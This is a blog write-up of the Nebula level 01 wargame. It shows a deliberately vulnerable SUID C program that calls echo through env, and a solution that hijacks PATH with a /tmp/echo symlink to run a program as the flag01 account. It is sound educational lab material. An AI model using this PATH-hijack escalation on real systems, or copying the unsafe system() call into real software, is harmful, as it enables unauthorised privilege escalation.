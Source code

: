 ```yaml
---
layout: post
title: 'Exploit Exercises: Nebula Level 01'
date: 2018-07-15 18:57 -0300
categories: [nebula, writeups]
tags: [ nebula, writeups, level, exploit, exercise, tutorial, solution]
---
```


![Image of Nebula Terminal](/uploads/Screenshot%20from%202018-07-16%2000-20-16.png)

There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?
To do this level, log in as the level01 account with the password level01. Files for this level can be found in /home/flag01.

### Source code

```cpp

#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

### Solution

Straight after we connect we go to flag01 account folder.

```terminal
level01@nebula:~$ cd /home/flag01/
level01@nebula:/home/flag01$ ls -al
total 13
drwxr-x--- 2 flag01 level01   92 Nov 20  2011 .
drwxr-xr-x 1 root   root      80 Aug 27  2012 ..
-rw-r--r-- 1 flag01 flag01   220 May 18  2011 .bash_logout
-rw-r--r-- 1 flag01 flag01  3353 May 18  2011 .bashrc
-rw-r--r-- 1 flag01 flag01   675 May 18  2011 .profile
-rwsr-x--- 1 flag01 level01 7322 Nov 20  2011 flag01
level01@nebula:/home/flag01$
```

Here we can observe the SUID vulnerable application called "flag01" with permission -rwsr-x---. Let’s execute it!

```terminal
level01@nebula:/home/flag01$ ./flag01
and now what?
```

Perfect! Let’s observe something on this line:

```cpp

system("/usr/bin/env echo and now what?");
```

As you can observe the above C instruction is calling for a system command, "echo". Is echo really echo in linux? Yeahhh, until you change it (actually until you make a link between your command and your other command). Let’s finish this!

```terminal
level01@nebula:/home/flag01$ PATH=/tmp:$PATH
level01@nebula:/home/flag01$ ln -s /bin/getflag /tmp/echo
level01@nebula:/home/flag01$ ./flag01
You have successfully executed getflag on a target account
level01@nebula:/home/flag01$
```

Fun? Here is the science behind my actions.
- http://www.cis.syr.edu/~wedu/Teaching/CompSec/LectureNotes_New/Set_UID.pdf
- http://collaboration.cmc.ec.gc.ca/science/rpn/biblio/ddj/Website/articles/SA/v10/i06/a1.htm
